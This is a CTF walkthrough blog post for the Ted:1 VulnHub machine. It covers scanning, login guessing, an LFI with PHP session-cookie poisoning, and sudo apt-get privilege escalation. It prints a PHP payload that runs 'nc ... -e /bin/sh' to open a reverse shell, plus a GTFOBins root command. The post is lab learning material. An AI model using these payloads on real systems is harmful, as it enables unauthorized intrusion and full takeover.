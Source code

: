 ```yaml
---
layout: post
title:  "Ted:1 Vulnhub Walkthrough"
date:   2020-09-24 15:00:00 +0530
categories: VulnHub CTF
---
```

Ted:1 is a machine in which I used Local File Inclusion Vulnerability to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.

## Scanning
As always, I started scanning with nmap

```
nmap -sV -sC 192.168.198.136
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 09:58 EDT
Nmap scan report for 192.168.198.136
Host is up (0.00077s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.37 seconds

```
Port 80 is the only opened port.
## Web Enumeration
Then I enumerated directories and files using gobuster

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.198.136 -x html,php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.198.136
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php
[+] Timeout:        10s
===============================================================
2020/09/24 09:58:18 Starting gobuster
===============================================================
/index.php (Status: 200)
/home.php (Status: 302)
/logout.php (Status: 302)
/cookie.php (Status: 302)
/authenticate.php (Status: 302)
/server-status (Status: 403)
===============================================================
2020/09/24 09:59:06 Finished
===============================================================
```
An intersting file is cookie.php, although it didn't help me to get a shell but it gave me a hint about using cookie with LFI to gain a shell.
## Brute forcing
I found a login form in index.php, So I tried SQLmap to test for SQL injection but the form isn't vulnerable to it. 
Then, I started testing with inputs and error messages and it was fruitful. The error messages gave me hints about the the correct username and correct password then the correct hashing algorithm. You can see the diffrence below.

### Username guessing 
![Username](/assets/machines/vulnhub/ted/1.png)

### Password guessing 
![Password](/assets/machines/vulnhub/ted/2.png)

### Hashing Algorithm guessing
![Hash](/assets/machines/vulnhub/ted/3.png)

The correct username is admin and the correct password is hash sha256 of word admin


## Local File Inclusion
When I typed /etc/passwd it retrived the content of the file, so it's clearly a LFI vulnerability. 
![Hash](/assets/machines/vulnhub/ted/4.png)



After many attemps like reading /etc/shadow and Log poisoning via apache logs, I found a suspicous cookie. so I tried to change it's value and access /var/lib/php/sessions/sess_ via the browser and it worked!
![Hash](/assets/machines/vulnhub/ted/5.png)

Immediately  I changed the cookie value to 

```
<?php system("nc [ip] 9999 -e /bin/sh")?>
```

but URL encoded as 
```
%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%22%6e%63%20%39%39%39%39%20%5b%69%70%5d%20%2d%65%20%2f%62%69%6e%2f%73%68%22%29%3f%3e
```
and started listening in my machine and refreshed the page. I got a shell!
```
root@kali:/home/kali# nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.198.137] from (UNKNOWN) [192.168.198.136] 57674
whoami
www-data
```

## Privilege Escalation
I ran sudo -l and noticed that I can run apt-get as a root without password (SUDO).

```
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/apt-get

```

So imediatly I went to https://gtfobins.github.io/ and got the following command
which abuses the sudo priv given to the binary apt-get 

```
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
whoami
root
```
and voila here is the root privilege!




